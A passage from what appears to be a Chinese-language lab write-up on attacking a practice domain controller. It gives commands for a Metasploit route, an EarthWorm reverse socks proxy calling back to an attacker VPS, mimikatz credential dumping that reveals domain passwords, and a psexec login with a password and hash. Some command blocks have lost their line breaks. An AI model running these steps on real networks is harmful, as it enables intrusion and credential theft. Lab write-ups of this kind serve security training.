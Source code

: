 下面我们来尝试攻击域控。

首先在 msfconsole 里面添加一个通向 192.168.138.0 网段的路由：

```
route add 192.168.138.0 255.255.255.0 1route print
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlUWCow80H6xLIe5YnSBsYEAARZ5kX2JvbDJnsy7PeQ88US843heiabibg/640?wx_fmt=png)image-20210218210209846

然后再 Windows 7 上传 earthworm，搭建 socks5 反向代理服务。

在攻击机 VPS 上执行如下命令：

```
./ew_for_linux64 -s rcsocks -l 1080 -e 1234
```

在 Windows 7 上传 ew_for_Win.exe 并执行如下：

```
ew_for_Win.exe -s rssocks -d 192.168.0.100 -e 1234
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlvEc1WKgnItYLPJg81aylpKhVARZYnJpAhGVNl3DHmTDr1B3dicjClCQ/640?wx_fmt=png)image-20210218214111230

然后配置 proxychains，将 socks5 服务器指向 127.0.0.1:1080，之后便可以使用 proxychains 将我们的程序代理进内网了。

### 抓取域用户密码

使用 msfconsole 中的 wiki 模块抓取密码：

```
load kiwikiwi_cmd privilege::debugkiwi_cmd sekurlsa::logonPasswords
```

报错：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvl2ibyzVzRk8jsibDRZuWIboss8CrHcKAEeY2OkAOVSianxJBy3SUVS2yKQ/640?wx_fmt=png)image-20210218210428570

因为当前是 32 位的进程无法运行 mimikatz，所以我们需要将当前进程迁移到一个 64 位的进程中。执行 ps 命令后随便找一个 64 位的进程迁移进去就行了：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlWROnNBnuVWEp0WX9xNfP23vTDPl8hWyLdmoWRuicjiamLCNSZuyDOoicA/640?wx_fmt=png)image-20210218210912530![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvl4UibogljMf4EOrM3m9z09SLxKmVgnib4C9wJ1j0gSEfv4p2hKuVM4ofA/640?wx_fmt=png)image-20210218210959563

如上图，成功抓取到了域管理员 Administrator 和域用户 leo 的密码：

•SUN\Administrator：dc123.com•SUN\leo：123.com

### Psexec 攻击

既然已经获得了域管理员的用户名密码，那么我们直接尝试使用 psexec 登录域控（Windows 2008）：

```
use exploit/windows/smb/psexecset rhosts 192.168.138.138set SMBDomain SUNset SMBUser administratorset SMBPass dc123.com# set SMBPass c8c42d085b5e3da2e9260223765451f1:e8bea972b3549868cecd667a64a6ac46set payload windows/meterpreter/bind_tcpset rhost 192.168.138.138run
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvljbUrTbicwQSSUUoa8RrwFw6byyBtRyaQQYodXuNU6ASCxjckH7NicecA/640?wx_fmt=png)image-20210218213517810
